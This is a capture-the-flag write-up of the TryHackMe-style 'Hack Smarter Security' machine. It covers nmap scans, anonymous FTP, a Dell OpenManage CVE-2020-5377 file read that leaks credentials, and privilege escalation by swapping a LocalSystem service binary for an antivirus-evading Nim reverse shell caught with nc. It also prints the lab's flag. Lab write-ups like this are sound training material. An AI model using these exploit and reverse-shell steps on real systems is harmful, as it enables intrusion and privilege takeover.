Target :  
http://10.10.182.162


# nmap

```
# Nmap 7.94SVN scan initiated Sun Mar 24 12:49:32 2024 as: nmap -g 443 -p- -vvv -oA nmap/allports 10.10.28.141
Nmap scan report for 10.10.28.141
Host is up, received echo-reply ttl 127 (0.32s latency).
Scanned at 2024-03-24 12:49:33 PST for 463s
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON
21/tcp   open  ftp           syn-ack ttl 127
22/tcp   open  ssh           syn-ack ttl 127
80/tcp   open  http          syn-ack ttl 127
1311/tcp open  rxmon         syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Mar 24 12:57:17 2024 -- 1 IP address (1 host up) scanned in 464.24 seconds


```

**services enum**

```
# Nmap 7.94SVN scan initiated Sun Mar 24 13:06:00 2024 as: nmap -g 443 -sV -A -p 21,22,80,1311,3389 -vvv -oA Hack_Smarter_Security/nmap/services 10.10.28.141
Nmap scan report for 10.10.28.141
Host is up, received echo-reply ttl 127 (0.32s latency).
Scanned at 2024-03-24 13:06:01 PST for 81s

PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 0d:fa:da:de:c9:dd:99:8d:2e:8e:eb:3b:93:ff:e2:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBQEQMtEIvOihpoAKa9mb4xibUA3epuSK6Rxxs+DoZW3vnh+jS+sRfqlylP7y/n4IzGUuaWlZVKpUq7BpYWy+b6CUQG59eniRhqIbPnQMxgj10aGNB2cwSWJiw7eHL5ifWJpPzhcESEpIo+y7DtWPffqWxU/nVp1gTc9Yq9SrumwiFuzT+CV1MzyMBuqqlhydQ2bmRKY8OPBylO1IfB0vUmttRekXQv5Hzj8+EuY9AyR1Dd/VIPyTAu6azseLp+XRkmbj/SDFCyVFzmcJWrd0U1TRO9JgyqMqpJ1sXaLdLvhN6cF8+TgvQrzIHktXcuuYs0VTxOcGLT6rxgTjvI4SR
|   256 5d:0c:df:32:26:d3:71:a2:8e:6e:9a:1c:43:fc:1a:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLo3VekZ7ilJh7VVErMMXBCMy6+xLbnG+S3p4AGRj+CYOojmR0hZcEC6m/bk/4wZbI8hqfi7WXkHzb9k229IAwM=
|   256 c4:25:e7:09:d6:c9:d9:86:5f:6e:8a:8b:ec:13:4a:8b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKrfRbBfOafQZpZ/1PAOouyK5o+rG5uKKPllhZk91Q+m
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: HackSmarterSec
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
1311/tcp open  ssl/rxmon?    syn-ack ttl 127
| ssl-cert: Subject: commonName=hacksmartersec/organizationName=Dell Inc/stateOrProvinceName=TX/countryName=US/localityName=Round Rock/organizationalUnitName=SA Enterprise Software Development
| Issuer: commonName=hacksmartersec/organizationName=Dell Inc/stateOrProvinceName=TX/countryName=US/localityName=Round Rock/organizationalUnitName=SA Enterprise Software Development
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-06-30T19:03:17
| Not valid after:  2025-06-29T19:03:17
| MD5:   4276:b53d:a8ab:fa7c:10c0:1535:ff41:2928
| SHA-1: c44f:51f8:ed54:802f:bb94:d0ea:705d:50f8:fd96:f49f
| -----BEGIN CERTIFICATE-----
| MIIDtjCCAp6gAwIBAgIJAJiVCPPKPIZQMA0GCSqGSIb3DQEBCwUAMIGIMQswCQYD
| VQQGEwJVUzELMAkGA1UECBMCVFgxEzARBgNVBAcTClJvdW5kIFJvY2sxKzApBgNV
| BAsTIlNBIEVudGVycHJpc2UgU29mdHdhcmUgRGV2ZWxvcG1lbnQxETAPBgNVBAoT
| CERlbGwgSW5jMRcwFQYDVQQDEw5oYWNrc21hcnRlcnNlYzAeFw0yMzA2MzAxOTAz
| MTdaFw0yNTA2MjkxOTAzMTdaMIGIMQswCQYDVQQGEwJVUzELMAkGA1UECBMCVFgx
| EzARBgNVBAcTClJvdW5kIFJvY2sxKzApBgNVBAsTIlNBIEVudGVycHJpc2UgU29m
| dHdhcmUgRGV2ZWxvcG1lbnQxETAPBgNVBAoTCERlbGwgSW5jMRcwFQYDVQQDEw5o
| YWNrc21hcnRlcnNlYzCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAID1
| 0qf1d/s31Fj8jgv7MtEHjRYX41B+o2p4M5TEIw3kWGrZmfxasZb7KP8lCKcS1+2x
| U08mCd2k0OfnGaeJIqnnzrQlkjhM/EVC+6LXOnC65rpaAmZXeKuH0YzFKSbmSt5k
| 7iTFoYH/QPLKn/lXxlCl4y4x73pCvttLOKtqcoO0a1Rf67kCnHuaRGVfWlidsUYe
| AIWsP8sq/kx+AhOTv4WRK/2Dx51emAguT8167rfiUbu9o6cf0hGhvO9V/d9SLcht
| sF8KVlAYZLHo6Vyzxf412+L2DrxqZoF6v3T8srvj4WMHt8m3lbyxizE68TCmQXzD
| SWoUUhpcv8xQBVCp860CAwEAAaMhMB8wHQYDVR0OBBYEFOADAwMC1j6Zrd4r+sYx
| V7aussbQMA0GCSqGSIb3DQEBCwUAA4IBAQBHVVuwnRybQn2lgUXjQVDWNDhTyV8h
| eKX78tuO/zLOO9H+QvtHnA293NEgsJ1B2hyM+QIfhPxB+uyAh9qkYLwwNWzT5M7i
| JZW2b00Q7JJhyF5ljU6+cQsIc2e9c6ohpka/2YOso18b0McJNZULEf1bkXAgCVFK
| /VUpZqbOUwze/Zyh/UCTY3yLmxmMzkRHIUSCNh7rdi5Rtv/ele0WICTD0eX1Hw0b
| DaUifmqUEI4Lh3SemL5MolJ0FpRrBNznNmWR9xwOFCE1dSaYj8Zo0oaIgJEbkffh
| 9k72dU9PVPMx+kqDak7ntWQHTFuV6GH149dIUPinVmioLAkxPJ2XmoRt
|_-----END CERTIFICATE-----
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Sun, 24 Mar 2024 05:06:18 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|     <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|   HTTPOptions:
|     HTTP/1.1 200
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Sun, 24 Mar 2024 05:06:25 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|_    <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2024-03-24T05:07:18+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-24T05:07:08+00:00
| ssl-cert: Subject: commonName=hacksmartersec
| Issuer: commonName=hacksmartersec


Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 24 13:07:22 2024 -- 1 IP address (1 host up) scanned in 81.45 seconds


```

By using this nmap tag, we are able to locate the services that this website offers

So we have the following ports open

> - 21
> - 22
> - 80
> - 1311
> - 3389

And additionally, nmap suggests that ftp allows anonymous access



# FTP

So we connect with the ftp server

```
 ftp 10.10.182.162
Connected to 10.10.182.162.
220 Microsoft FTP Service
Name (10.10.182.162:zxczxc): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49749|)
125 Data connection already open; Transfer starting.
06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
06-28-23  03:00PM              1022126 stolen-passport.png
226 Transfer complete.
ftp> mget *
mget Credit-Cards-We-Pwned.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||49751|)
125 Data connection already open; Transfer starting.
100% |*********************************|  3722       11.31 KiB/s    00:00 ETA
226 Transfer complete.
3722 bytes received in 00:00 (11.30 KiB/s)
mget stolen-passport.png [anpqy?]? y
229 Entering Extended Passive Mode (|||49752|)
125 Data connection already open; Transfer starting.
  0% |                                 |     0        0.00 KiB/s    --:-- ETAftp: Reading from network: Interrupted system call
  0% |                                                                                                                |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available.
WARNING! 164 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp>

```



Actually, I was in a rabbit hole for an hour in this FTP, and after a bit of search to I use the FTP `binary` mode on to download the file.

```
ftp> ls
229 Entering Extended Passive Mode (|||49823|)
125 Data connection already open; Transfer starting.
06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
06-28-23  03:00PM              1022126 stolen-passport.png
226 Transfer complete.
ftp> BINARY
?Invalid command.
ftp> binary
200 Type set to I.
ftp> mget stolen-passport.png
mget stolen-passport.png [anpqy?]? y
229 Entering Extended Passive Mode (|||49826|)
125 Data connection already open; Transfer starting.
100% |**********************************|   998 KiB  171.95 KiB/s    00:00 ETA
226 Transfer complete.
1022126 bytes received in 00:05 (171.94 KiB/s)
```

The first time we downloaded the files, we received an error, I just didnt noticed it,  
Here is the error below



I was finally able to view the PNG image but it didnt give much information


**web**




walking through the web hosted on port 1311 we saw that it is running a vulnerable version of `dell openmanage 9.4.0`


**exploit**




I have used 3 different exploits for this because the first 2 wont read `C:\inetpub\wwwroot\hacksmartersec\web.config`  when I try to read .. the one that worked was from rhinolabs


```

└─$ python3 cve-2020-5377.py 10.9.188.76 10.10.28.141:1311
Session: 9479AF66A4563BE5EEADC1028904D437
VID: 0AB5613D128BC249
file > C:\inetpub\wwwroot\hacksmartersec\web.config
Reading contents of C:\inetpub\wwwroot\hacksmartersec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>

```

so now we are able to read the configuration file and able to access the credentials

user: tyler
pass: IAmA1337h4x0randIkn0wit!


**ssh**

So we can just access ssh or rdp, I used ssh to access the machine to get the user flag



THM{4ll15n0tw3llw1thd3ll}   

**Privileged Escalation**



I tried to run the winPEAS first, but it was flagged down by defender,,, I tried running privesccheker we are able to see a high vulnerability application owned by localsystem




```

Name        : spoofer-scheduler
DisplayName : Spoofer Scheduler
ImagePath   : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
User        : LocalSystem
ImagePath   : "C:\Program Files\Dell\SysMgt\oma\bin\dsm_om_connsvc64.exe"     
User        : LocalSystem              
StartMode   : Automatic

```


creating an exploit, I used a nim reverse shell because a it is undetected.. we can follow the tutorial here  `https://github.com/emrekybs/nim-shell`




after I compiled it,, it would spit out an exe file... we just have to rename it and move it over to our victim machine and restart the `spoofer-scheduler service`



`sc start spoofer-scheduler` and then `sc stop spoofer-scheduler` while we wait for our listening shell







```
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.9.188.76] from (UNKNOWN) [10.10.28.141] 50093
C:\Windows\system32> cd C:\Users\Administrator\Desktop\Hacking-Targets
C:\Users\Administrator\Desktop\Hacking-Targets> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop\Hacking-Targets

06/30/2023  06:40 PM    <DIR>          .
06/30/2023  06:40 PM    <DIR>          ..
06/27/2023  09:40 AM                53 hacking-targets.txt
               1 File(s)             53 bytes
               2 Dir(s)  14,100,426,752 bytes free
C:\Users\Administrator\Desktop\Hacking-Targets> type hacking-targets.txt
Next Victims: 
CyberLens, WorkSmarter, SteelMountain
C:\Users\Administrator\Desktop\Hacking-Targets>  

```

